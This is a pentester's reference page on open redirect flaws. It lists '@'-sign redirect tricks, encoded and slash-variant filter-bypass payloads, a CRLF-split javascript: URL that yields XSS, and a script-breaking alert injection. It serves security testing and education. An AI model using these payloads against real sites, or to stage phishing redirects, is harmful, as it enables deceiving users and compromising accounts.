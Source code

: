 # Open Redirect

### Overview

A website is vulnerable to Open Redirect when parameter values (the portion of URL after "?") in an HTTP GET request allow for information that will redirect a user to a new website&#x20;without proper validation of the target of the redirect. Depending on the architecture of a vulnerable website, redirection could happen after a certain action, such as login, and&#x20;sometimes it could happen instantaneously upon loading of a page.

An example of a vulnerable website link could look something like this: `https://www.example.com/login.html?RelayState=http%3A%2F%2Fexample.com%2Fnext`

Makes it really easy to get **phishing** done - just redirect to your own site and ask for a login.

### Exploiting Semi-Hardcoded Paths

If the redirection is done like this:

```
Window.location.href = hardcoded_part + malicious_part
```

Then you might still be able to redirect to your own site using the `@` sign (might not work, depending on the hardcoded part)

Tests:

* `http://example.com@test.com`&#x20;
  * Works for chrome
  * Works on Firefox but gives phishing warning
* `http://example.com/page@test.com`
  * Doesn't work
*   `page@test.com`&#x20;

    * Doesn’t work



### Filter Bypassing

Here are some things to try to bypass filters and still be able to get open redirect to work:

* `java%0d%0ascript%0d%0a:alert(0)`
  * CRLF injection to bypass `javascript:` being blacklisted
  * Results in **XSS**
* `//google.com`
  * In case http:// is blacklisted
* `https:google.com`
  * Browsers accept this, good if `//` is blacklisted
* `//google%E3%80%82com`
  * `%E3%80%82` is `。` encoded.&#x20;
* `\/\/google.com/`
  * Useful for bypassing // http:// blacklists. Browsers see \\/\\/ as //)
* `/\/google.com/`
  * Same as above
* `//google%00.com`
  * Attempt to use a null byte to bypass a blacklist filter.
* `http://www.theirsite.com@yoursite.com/`
  * Browsers will redirect to anything after @
* `http://www.yoursite.com/http://www.theirsite.com/`
  * If `@` is blacklisted and they check if their domain is in the param, then make a folder on your site with the name of their domain
* `";alert(0);//`
  * If the url is echoed in a variable and we want to get xss in script tag



